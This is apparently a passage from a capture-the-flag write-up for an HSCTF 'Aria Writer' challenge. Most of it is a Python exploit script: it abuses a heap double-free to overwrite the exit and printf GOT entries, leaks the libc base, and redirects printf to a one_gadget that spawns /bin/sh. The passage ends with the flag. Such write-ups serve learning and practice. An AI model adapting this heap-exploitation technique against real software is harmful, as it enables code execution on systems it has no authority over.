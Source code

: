 ```python
free()
free()
alloc(100, p64(exit_got))
alloc(100, 'abcde')
alloc(100, p64(ret_addr))

# change chunk to name
alloc(chunk_size-0x10, p64(chunk_addr+0x10))
free()
free()
alloc(chunk_size-0x10, p64(chunk_addr+0x10))
alloc(chunk_size-0x10, 'abcde')
alloc(chunk_size-0x10, 'thisgoestoname')
free()
sh.sendlineafter('> ', '3')
libc_base =u64(sh.recvuntil('composing an aria')[0x30:0x30+8])-0x3ebca0

# override printf

# 0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rcx == NULL

# 0x4f322 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a38c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
win_addr = libc_base + 0x10a38c
alloc(150, p64(printf_got))
free()
free()
alloc(150, p64(printf_got))
alloc(150, 'abcde')
alloc(150, p64(win_addr))

# alloc(0x10, 'abcde')
# alloc(0x100, p64(name_addr+0x10))
# for i in range():
#   free()
# alloc(0x100, p64(name_addr+0x10))
# free()

sh.interactive()
```

flag: `hsctf{1_should_tho}`

# Aria Writer v3
